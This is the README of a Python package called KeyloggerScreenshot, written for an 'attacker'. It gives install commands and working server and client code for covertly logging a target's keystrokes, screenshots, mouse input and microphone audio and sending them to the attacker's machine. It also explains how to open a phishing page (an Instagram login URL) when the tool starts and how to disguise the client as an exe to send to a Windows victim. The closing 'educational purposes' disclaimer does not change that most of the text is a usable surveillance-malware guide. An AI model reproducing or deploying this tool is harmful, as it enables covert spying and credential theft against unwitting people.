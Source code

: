 KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. You can open a link when the keylogger is executed. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my github (easier way):

https://github.com/Kill0geR/KeyloggerScreenshot

GITHUB-VERSION (SNEAK PEAK):

![kali_img](https://user-images.githubusercontent.com/106278241/206914635-c9d5e505-9499-4dce-91ed-5254f495929d.png)

SHOUT OUT TO:
-------------
name: dyma020

link to his insta: https://www.instagram.com/dyma020/

He had the idea of the mouse information. He also build the graphical user interface. Big thanks to him

HOW DOES KeyloggerScreenshot WORK?
==================================

To install KeyloggerScreenshot simply write:

`pip install KeyloggerScreenshot`

in your terminal

After that create a server:

Server
------

````python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1"

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()




````

Then create the client

Client
------

````python
#client_target.py
import KeyloggerScreenshot as ks

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60, phishing_web="https://www.instagram.com/accounts/login/?__coig_restricted=1") # You can open a link when the keylogger starts
key_client.start()
````

You can specify the time of running in secunds in the "duration_in_seconds" variable

Essential Informations:
------------

* This module can be used in Windows and Linux

* The servers can now be run in the same file with the module threading

* The port number for each server should be different

* The server should obviously be run before the client

* You can just copy the following code and insert you ip-address in the variable "ip"

* You can find your ip-address in the command line by using the command "ipconfig"

* If you want a cool simulation you can specify that in ServerKeylogger by setting the Parameter simulater to True

* You can open a link that you can choose when the keylogger is executed. Set the Parameter "phishing_web" to your link

* If you really want to send this to work externally, you have to buy a server and download the code on my github.



Output
------
```python
"""
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer


Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established ![img_2.png](img_2.png)with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...

"""
```

Directory of Attacker
---------------------
![img](https://user-images.githubusercontent.com/106278241/218315115-5c84c74e-bb59-4c55-aa26-e9d726d8fa44.png)

Additional
==========
* You can send "target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The ideal target should use Windows as his OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. THIS WAS BUILD FOR EDUCATIONAL PURPOSES.
